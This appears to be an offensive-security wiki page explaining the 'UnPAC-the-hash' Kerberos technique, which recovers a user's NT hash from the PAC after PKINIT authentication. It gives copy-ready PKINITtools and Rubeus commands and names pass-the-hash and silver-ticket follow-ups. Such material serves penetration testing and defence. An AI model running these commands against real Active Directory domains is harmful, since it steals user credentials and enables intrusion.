 # UnPAC the hash

When using PKINIT to obtain a TGT (Ticket Granting Ticket), the KDC (Key Distribution Center) includes in the ticket a `PAC_CREDENTIAL_INFO` structure containing the NTLM keys (i.e. LM and NT hashes) of the authenticating user. This feature allows users to switch to NTLM authentications when remote servers don't support Kerberos, while still relying on an asymmetric Kerberos pre-authentication verification mechanism (i.e. PKINIT).

The NTLM keys will then be recoverable after a TGS-REQ through U2U, combined with S4U2self, which is a Service Ticket request made to the KDC where the user asks to authenticate to itself (i.e. S4U2self + User-to-User authentication).

The following protocol diagram details how UnPAC-the-hash works. It allows attackers that know a user's private key, or attackers able to conduct Shadow Credentials or Golden certificate attacks, to recover the user's LM and NT hashes.

![](UnPAC-the-hash.png)

From UNIX-like systems, this attack can be conducted with [PKINITtools](https://github.com/dirkjanm/PKINITtools).

The first step consists in obtaining a TGT by validating a PKINIT pre-authentication first.
```python
gettgtpkinit.py -cert-pfx "PATH_TO_CERTIFICATE" -pfx-pass "CERTIFICATE_PASSWORD" "FQDN_DOMAIN/TARGET_SAMNAME" "TGT_CCACHE_FILE"
```

Once the TGT is obtained, and the session key extracted (printed by gettgtpkinit.py), the getnthash.py script can be used to recover the NT hash.
```bash
export KRB5CCNAME="TGT_CCACHE_FILE"
getnthash.py -key 'AS-REP encryption key' 'FQDN_DOMAIN'/'TARGET_SAMNAME'
```

The NT hash can be used for pass-the-hash, silver ticket, or Kerberos delegations abuse.

From Windows systems, [Rubeus](https://github.com/GhostPack/Rubeus) can be used to requesting a ticket using a certificate and use `/getcredentials` to retrieve the NT hash in the PAC.
```powershell
Rubeus.exe asktgt /getcredentials /user:"TARGET_SAMNAME" /certificate:"BASE64_CERTIFICATE" /password:"CERTIFICATE_PASSWORD" /domain:"FQDN_DOMAIN" /dc:"DOMAIN_CONTROLLER" /show
```